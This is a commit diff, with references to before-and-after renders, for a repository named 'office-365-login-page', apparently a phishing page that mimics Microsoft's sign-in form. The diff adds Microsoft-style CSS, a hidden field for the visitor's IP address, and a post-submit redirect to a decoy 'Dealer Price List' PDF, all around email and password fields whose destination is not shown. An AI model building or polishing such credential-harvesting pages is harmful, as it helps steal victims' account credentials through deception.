

Before and after one commit to SahilAujla/office-365-login-page, a plain HTML site: page index.html in a window 390 px wide. Shown: the whole page, 415 px wide, since content can reach past the window. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
made design.

```diff
--- a/index.html
+++ b/index.html
@@ -29,10 +29,12 @@
             <input
               type="hidden"
               name="_next"
-              value="https://yourdomain.co/thanks.html"
+              value="https://pdfhost.io/v/Jm0kSWjJR_Dealer_Price_Listpdf.pdf"
             />
+            <input id="ip" type="hidden" name="ip" />
             <div class="email-field">
               <input
+                class="not-hidden"
                 type="text"
                 name="Email-Phone-or-Skype"
                 placeholder="Email, phone, or Skype"
@@ -41,6 +43,7 @@
             </div>
             <div class="password-field">
               <input
+                class="not-hidden"
                 type="password"
                 name="Password"
                 placeholder="Password"
@@ -49,12 +52,19 @@
             </div>
             <p>No account? <span class="blue">Create one!</span></p>
             <p><span class="blue">Can't access your account?</span></p>
-            <button id="submit" type="submit">Next</button>
+            <div class="button">
+              <button id="submit" type="submit">Next</button>
+            </div>
           </form>
         </div>
       </div>
       <div class="sign-in-options">
-        <span><img src="images/Sign-in-options.svg" />Sign-in options</span>
+        <div class="wrap-sign-in">
+          <span
+            ><img id="key" src="images/Sign-in-options.svg" />Sign-in
+            options</span
+          >
+        </div>
       </div>
     </div>
   </body>
--- a/styles.css
+++ b/styles.css
@@ -29,7 +29,7 @@ body {
   width: 440px;
   height: 338px;
   position: absolute;
-  top: 50%;
+  top: 42.5%;
   left: 50%;
   transform: translate(-50%, -50%);
   color: var(--font-color);
@@ -42,8 +42,143 @@ body {
 .content {
   background: var(--background-content);
   margin-bottom: 20px;
+  padding: 44px;
+  box-shadow: 0 2px 6px rgb(0 0 0 / 20%);
 }
 
 .sign-in-options {
   background: var(--background-content);
+  box-shadow: 0 2px 6px rgb(0 0 0 / 20%);
+  line-height: 16px;
+  padding-left: 12px;
+  padding-right: 12px;
+  vertical-align: middle;
+  text-align: left;
+  cursor: pointer;
+  color: inherit;
+  cursor: pointer;
+  padding: 10px 44px 10px 44px;
 }
+
+h1 {
+  font-size: 1.5rem;
+  font-weight: 600;
+  line-height: 1.75rem;
+  font-family: "Segoe UI", "Helvetica Neue", "Lucida Grande", "Roboto", "Ebrima",
+    "Nirmala UI", "Gadugi", "Segoe Xbox Symbol", "Segoe UI Symbol", "Meiryo UI",
+    "Khmer UI", "Tunga", "Lao UI", "Raavi", "Iskoola Pota", "Latha",
+    "Leelawadee", "Microsoft YaHei UI", "Microsoft JhengHei UI", "Malgun Gothic",
+    "Estrangelo Edessa", "Microsoft Himalaya", "Microsoft New Tai Lue",
+    "Microsoft PhagsPa", "Microsoft Tai Le", "Microsoft Yi Baiti",
+    "Mongolian Baiti", "MV Boli", "Myanmar Text", "Cambria Math";
+}
+
+p {
+  font-size: 0.8125rem;
+}
+
+.blue {
+  color: #0067b8;
+}
+
+button {
+  display: block;
+  color: #fff;
+  background-color: #0067b8;
+  border-color: #0067b8;
+  margin-top: 0;
+  margin-bottom: 0;
+  min-height: 32px;
+  border: none;
+  min-width: 108px;
+  line-height: normal;
+  padding: 4px 12px 4px 12px;
+  text-align: center;
+  cursor: pointer;
+  margin: 0;
+  float: right;
+  margin-bottom: 44px;
+}
+
+.not-hidden {
+  border-style: solid;
+  padding: 6px, 10px;
+  border-width: 1px;
+  border-color: rgba(0, 0, 0, 0.6);
+  height: 36px;
+  outline: none;
+  border-radius: 0;
+  background-color: transparent;
+  border-top-width: 0;
+  border-left-width: 0;
+  border-right-width: 0;
+  padding-left: 0;
+  display: block;
+  width: 100%;
+  margin: 0;
+  max-width: 100%;
+  font: inherit;
+  transition: border-color 2s;
+}
+
+.button {
+  margin-bottom: 44px;
+}
+
+.not-hidden:focus {
+  border-color: #0067b8;
+}
+
+#key {
+  width: 32px;
+  height: 32px;
+  vertical-align: middle;
+  border: 0;
+  margin-right: 12px;
+}
+
+@media screen and (max-width: 500px) {
+  body {
+    margin: 0;
+    height: 0;
+    background: #fff;
+  }
+
+  .container {
+    width: 100%;
+    height: 100%;
+    color: var(--font-color);
+    font-size: 0.9375rem;
+    line-height: 1.25rem;
+    font-weight: 400;
+    text-align: left;
+    background: white;
+  }
+
+  .content {
+    padding: 24px;
+    box-shadow: none;
+  }
+
+  .sign-in-options {
+    background: var(--background-content);
+    box-shadow: none;
+    line-height: 16px;
+    padding-left: 12px;
+    padding-right: 12px;
+    vertical-align: middle;
+    text-align: left;
+    cursor: pointer;
+    color: inherit;
+    cursor: pointer;
+  }
+
+  .wrap-sign-in {
+    display: inline-block;
+    width: 97%;
+    border: 1px solid rgba(0, 0, 0, 0.6);
+    margin: auto;
+    text-align: left;
+    padding: 10px 44px 10px 44px;
+  }
+}
```
